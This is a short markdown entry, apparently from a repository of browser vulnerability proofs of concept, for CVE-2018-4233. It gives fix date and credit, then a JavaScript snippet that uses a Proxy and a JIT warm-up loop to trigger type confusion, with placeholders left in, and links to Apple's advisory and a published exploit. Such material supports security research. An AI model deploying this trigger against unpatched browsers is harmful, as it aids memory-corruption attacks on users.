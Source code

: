 # CVE-2018-4233

- Fix: May 2018
- Credit: Samuel Groß

## PoC

```javascript
var o = [13.37]
var Constructor${counter} = function(o) { o[0] = 0x41414141; }
var hack = false
var Wrapper = new Proxy(Constructor${counter}, {
    get: function() {
        if (hack) {
            o[0] = {}
        }
    }
})
for (var i = 0; i < ITERS; ++i)
    new Wrapper(o)
hack = true
var bar = new Wrapper(o)
o[0]
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT208848)
- [Exploit by phoenhex team](https://github.com/phoenhex/files/blob/master/exploits/ios-11.3.1/pwn_i8.js)
